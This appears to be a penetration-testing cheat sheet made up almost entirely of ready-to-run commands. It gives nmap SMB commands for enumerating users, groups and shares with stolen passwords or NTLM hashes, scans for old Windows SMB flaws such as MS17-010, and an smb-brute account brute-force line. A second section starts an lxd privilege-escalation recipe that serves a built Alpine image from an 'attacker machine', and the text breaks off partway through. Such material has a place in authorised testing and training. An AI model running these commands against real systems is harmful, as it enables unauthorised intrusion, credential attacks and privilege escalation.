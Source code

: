 ```
nmap -p 445 --script smb-enum-users <target> --script-args smbuser=username,smbpass=password,smbdomain=domain nmap -p 445 --script smb-enum-users <target> --script-args smbuser=username,smbhash=LM:NTLM,smbdomain=domain
```
```
nmap --script smb-enum-users.nse --script-args smbusername=User1,smbpass=Pass@1234,smbdomain=workstation -p445 192.168.1.10
```
```
nmap --script smb-enum-users.nse --script-args smbusername=User1,smbhash=aad3b435b51404eeaad3b435b51404ee:C318D62C8B3CA508DD753DDA8CC74028,smbdomain=mydomain -p445 192.168.1.10
```
nmap - Enum Groups
```
nmap -p 445 --script smb-enum-groups <target> --script-args smbuser=username,smbpass=password,smbdomain=domain nmap -p 445 --script smb-enum-groups <target> --script-args smbuser=username,smbhash=LM:NTLM,smbdomain=domain
```
nmap - Enum Shares
```
nmap -p 445 --script smb-enum-shares <target> --script-args smbuser=username,smbpass=password,smbdomain=domain nmap -p 445 --script smb-enum-shares <target> --script-args smbuser=username,smbpass=LM:NTLM,smbdomain=domain
```
nmap - OS Discovery
```
nmap -p 445 --script smb-os-discovery <target>
```
nmap - SMB Vulnerabilities on Windows
```
nmap -p 445 --script smb-vuln-ms06-025 target-IP
nmap -p 445 --script smb-vuln-ms07-029 target-IP
nmap -p 445 --script smb-vuln-ms08-067 target-IP
nmap -p 445 --script smb-vuln-ms10-054 target-IP
nmap -p 445 --script smb-vuln-ms10-061 target-IP
nmap -p 445 --script smb-vuln-ms17-010 target-IP
```
Always check for updated list on https://nmap.org/nsedoc/scripts/
map - Brute Force Accounts (be aware of account lockout!)
```
nmap –p 445 --script smb-brute –script-args userdb=user-list.txt,passdb=pass-list.txt target-IP
```

-------------------------------------------------------------------------------------------------------
# lxc/lxd Privilege Escalation

```shell
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
*upload the `apline-v3.10-x86_64-someting-.tar.gz` file from the attacker machine*
```shell
python -m SimpleHTTPServer
```
